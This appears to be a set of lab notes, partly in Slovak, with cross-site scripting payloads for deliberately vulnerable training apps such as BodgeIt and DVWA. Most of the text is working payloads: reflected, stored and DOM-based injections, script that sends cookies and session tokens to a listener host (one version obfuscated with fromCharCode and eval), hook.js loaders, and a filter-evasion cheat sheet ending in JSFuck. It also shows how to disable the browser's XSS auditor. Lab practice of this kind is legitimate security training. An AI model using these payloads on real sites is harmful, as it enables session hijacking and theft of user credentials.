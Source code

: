 # A3 Cross-Site Scripting (XSS)


## Refelcted

Got `ERR_BLOCKED_BY_XSS_AUDITOR` in your Chrome ? Try the `Iceweasel` in the VM ;]
Or just set `X-XSS-Protection: 0` in burp via `Proxy > Options > Match and Replace`
Or run Chrome/Chromium with `--disable-xss-auditor`

### BodgeIt store

`http://10.6.6.13:8080/bodgeit/search.jsp?q=%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E`

`http://10.6.6.13:8080/bodgeit/search.jsp?q=<sCrIpt src='http://10.6.6.13:3000/hook.js'></ScRipT>`

[Reflected XSS in WebGoat](http://10.6.6.10:8080/WebGoat-5.4/attack?Screen=20&menu=900)


### DVWA
Try it on `http://owasp.local/dvwa/vulnerabilities/xss_r`

GET `http://owasp.local/dvwa/vulnerabilities/xss_r/?name=%3Cimg+src%3Dx+onerror%3Dalert%28document.cookie%29%3E#`

```
<script>alert("XSS");</script>
<img src=x onerror=alert(document.cookie)>
```

## Stored


[BodgeIt / registration](http://10.6.6.13:8080/bodgeit/register.jsp)

`hacker@citadelo.com<scriPt>alert("XSS");</scRipt>`

trigger it 

`http://10.6.6.13:8080/bodgeit/admin.jsp`


[BodgeIt / Contact](http://10.6.6.13:8080/bodgeit/contact.jsp)

`<sCriPt>alert(document.cookie);</scRipT>`


priklad

Start a simple HTTP server as a listener

`python -m SimpleHTTPServer 8888`

```
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'&'+location.search+'"/>';</script><textarea cols="0" rows="0" style="display:none">
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper
</textarea><script>document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'"/>';</script><textarea cols="0" rows="0">
```

```
document.getElementById('header').innerHTML+='<img src="http://10.6.6.13:8888/?'+document.cookie+'&token='+location.search.split('token=')[1].split('&')[0]+'"/>';
```

```
Sed scelerisque sed leo in rutrum. Etiam aliquet, nisl at facilisis ullamcorper, ante eros gravida mauris, quis gravida dolor ipsum at massa. Nam et ante eget sem volutpat dignissim eu ut diam. Etiam convallis dui at semper egestas. Curabitur dignissim, velit id suscipit ullamcorper</textarea><script>eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,66,121,73,100,40,39,104,101,97,100,101,114,39,41,46,105,110,110,101,114,72,84,77,76,43,61,39,60,105,109,103,32,115,114,99,61,34,104,116,116,112,58,47,47,49,48,46,54,46,54,46,54,47,63,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,39,38,116,111,107,101,110,61,39,43,108,111,99,97,116,105,111,110,46,115,101,97,114,99,104,46,115,112,108,105,116,40,39,116,111,107,101,110,61,39,41,91,49,93,46,115,112,108,105,116,40,39,38,39,41,91,48,93,43,39,34,47,62,39,59));</script><textarea cols="0" rows="0">
```

`</textarea><script src=http://10.6.6.13:3000/hook.js><textarea>`



## DOM based

AwesomeShop

`http://10.6.6.13/oc/index.php?route=common/home#default=Slovak`

`http://10.6.6.13/oc/index.php?route=common/home#default=%3Cscript%3Ealert%281%29%3C/script%3E`


### Prezentacia

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=# onmouseover="alert('xxs')">
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
<IMG SRC='vbscript:msgbox("XSS")'>
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<svg/onload=alert(’XSS')>

```


JSFuck
```
<script>
[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()
</script>

```
